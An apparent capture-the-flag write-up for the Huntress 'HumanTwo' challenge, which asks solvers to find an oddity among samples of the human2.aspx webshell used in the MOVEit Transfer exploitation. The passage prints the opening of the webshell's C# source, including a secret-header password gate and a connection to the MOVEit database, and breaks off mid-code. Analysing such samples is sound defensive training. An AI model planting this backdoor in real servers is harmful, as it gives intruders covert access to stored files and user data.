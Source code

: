 # HumanTwo
![Human](https://i.imgur.com/A3m8riC.png)
> During the MOVEit Transfer exploitation, there were tons of "indicators of compromise" hashes available for the `human2.aspx` webshell! We collected a lot of them, but they all look very similar... except for very minor differences. Can you find an oddity?  

**NOTE, this challenge is based off of a real malware sample. We have done our best to "defang" the code, but out of abudance of caution it is strongly encouraged you only analyze this inside of a virtual environment separate from any production devices.**

**Download the file(s) below.**
**Attachments:** [human2.aspx_iocs.zip](https://huntress.ctf.games/files/671ca0608e31fe1e67d84ed9e2c05a09/human2.aspx_iocs.zip?token=eyJ1c2VyX2lkIjozMDU4LCJ0ZWFtX2lkIjo0MzQsImZpbGVfaWQiOjJ9.ZR2hMQ.3Kf8-JBRSiCIefIOg6eG8p1mPVE)

-----

1. Download the *human2.aspx_iocs.zip* file

2. If you open one of the files in a text editor, such as `notepad++`, you'll a block of code like this:
```
<%@ Page Language="C#" %>

<%@ Import Namespace="MOVEit.DMZ.ClassLib" %>
<%@ Import Namespace="MOVEit.DMZ.Application.Contracts.Infrastructure.Data" %>
<%@ Import Namespace="MOVEit.DMZ.Application.Files" %>
<%@ Import Namespace="MOVEit.DMZ.Cryptography.Contracts" %>
<%@ Import Namespace="MOVEit.DMZ.Core.Cryptography" %>
<%@ Import Namespace="MOVEit.DMZ.Application.Contracts.FileSystem" %>
<%@ Import Namespace="MOVEit.DMZ.Core" %>
<%@ Import Namespace="MOVEit.DMZ.Core.Data" %>
<%@ Import Namespace="MOVEit.DMZ.Application.Users" %>
<%@ Import Namespace="MOVEit.DMZ.Application.Contracts.Users.Enum" %>

<%@ Import Namespace="MOVEit.DMZ.Application.Contracts.Users" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.IO.Compression" %>

<script runat="server">  
private Object connectDB() {
    var MySQLConnect = new DbConn(SystemSettings.DatabaseSettings());
    bool flag = false;
    string text = null;
    flag = MySQLConnect.Connect();
    if (!flag) {
        return text;
    }
    return MySQLConnect;
}
private Random random = new Random();
public string RandomString(int length) {
    const string chars = "abcdefghijklmnopqrstuvwxyz0123456789";
    return new string(Enumerable.Repeat(chars, length).Select(s => s[random.Next(s.Length)]).ToArray());
}
protected void Page_load(object sender, EventArgs e) {
    var pass = Request.Headers["X-siLock-Comment"];
    if (!String.Equals(pass, "73ced567-c67d-4fe1-9f19-ffde4a36ccce")) {
        Response.StatusCode = 404;
        return;
    }
    Response.AppendHeader("X-siLock-Comment", "comment");
    var instid = Request.Headers["X-siLock-Step1"];
```
